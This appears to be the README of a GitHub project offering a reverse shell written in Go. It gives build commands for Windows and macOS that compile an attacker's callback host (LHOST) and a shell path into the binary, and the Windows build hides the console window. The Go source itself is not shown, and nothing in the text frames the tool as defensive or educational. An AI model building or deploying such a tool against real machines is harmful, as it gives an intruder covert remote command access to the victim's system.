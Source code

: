 # GRS
### A Golang reverse shell


#### To build:
    Windows:
        `$ go build -ldflags "-X 'main.host=`**LHOST**`' -X 'main.shell=`**shell path**`' -H windowsgui" "windows/GRS.go"`
    
    Darwin:
        `$ go build -ldflags "-X 'main.host=`LHOST`' -X 'main.shellPath=`shell path`'" "darwin/GRS.go"`
